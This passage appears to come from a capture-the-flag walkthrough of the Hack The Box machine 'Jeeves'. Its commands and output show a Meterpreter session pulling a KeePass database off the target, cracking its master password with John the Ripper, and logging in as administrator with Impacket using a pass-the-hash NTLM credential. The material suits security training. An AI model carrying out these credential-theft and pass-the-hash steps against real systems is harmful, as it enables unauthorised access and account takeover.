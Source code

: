 meterpreter > cd Desktop  
meterpreter > ls  
Listing: C:\Users\kohsuke\Desktop  
=================================

Mode Size Type Last modified Name  
---- ---- ---- ------------- ----  
100666/rw-rw-rw- 282 fil 2017-11-04 04:15:51 +0100 desktop.ini  
100444/r--r--r-- 32 fil 2017-11-04 04:22:51 +0100 user.txt

meterpreter > cd ..  
meterpreter > cd Documents

meterpreter > ls  
Listing: C:\Users\kohsuke\Documents  
===================================

Mode Size Type Last modified Name  
---- ---- ---- ------------- ----  
100666/rw-rw-rw- 2846 fil 2017-09-18 19:43:17 +0200 CEH.kdbx  
40777/rwxrwxrwx 0 dir 2017-11-04 03:50:40 +0100 My Music  
40777/rwxrwxrwx 0 dir 2017-11-04 03:50:40 +0100 My Pictures  
40777/rwxrwxrwx 0 dir 2017-11-04 03:50:40 +0100 My Videos  
100666/rw-rw-rw- 402 fil 2017-11-04 04:15:51 +0100 desktop.ini

meterpreter > download CEH.kdbx  
[*] Downloading: CEH.kdbx -> CEH.kdbx  
[*] Downloaded 2.78 KiB of 2.78 KiB (100.0%): CEH.kdbx -> CEH.kdbx  
[*] download : CEH.kdbx -> CEH.kdbx

root@kali:~/htb/jeeves# ls  
CEH.kdbx  
root@kali:~/htb/jeeves# keepass2john CEH.kdbx > hash  
root@kali:~/htb/jeeves# john --format=KeePass --wordlist=/usr/share/wordlists/rockyou.txt hash  
Using default input encoding: UTF-8  
Loaded 1 password hash (KeePass [SHA256 AES 32/64 OpenSSL])  
Press 'q' or Ctrl-C to abort, almost any other key for status  
moonshine1 (CEH)  
1g 0:00:00:52 DONE (2018-05-17 20:25) 0.01922g/s 1057p/s 1057c/s 1057C/s moonshine1  
Use the "--show" option to display all of the cracked passwords reliably  
Session completed  
root@kali:~/htb/jeeves# keepass2 CEH.kdbx

![4jenkins](https://imgur.com/sjSlTdI.jpg)

root@kali:~/htb/jeeves# smbclient.py administrator@10.10.10.63 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00  
Impacket v0.9.17-dev - Copyright 2002-2018 Core Security Technologies

Type help for list of commands  
# help

open {host,port=445} - opens a SMB connection against the target host/port  
login {domain/username,passwd} - logs into the current SMB connection, no parameters for NULL connection. If no password specified, it'll be prompted  
kerberos_login {domain/username,passwd} - logs into the current SMB connection using Kerberos. If no password specified, it'll be prompted. Use the DNS resolvable domain name  
login_hash {domain/username,lmhash:nthash} - logs into the current SMB connection using the password hashes  
logoff - logs off  
shares - list available shares  
use {sharename} - connect to an specific share  
cd {path} - changes the current directory to {path}  
lcd {path} - changes the current local directory to {path}  
pwd - shows current remote directory  
password - changes the user password, the new password will be prompted for input  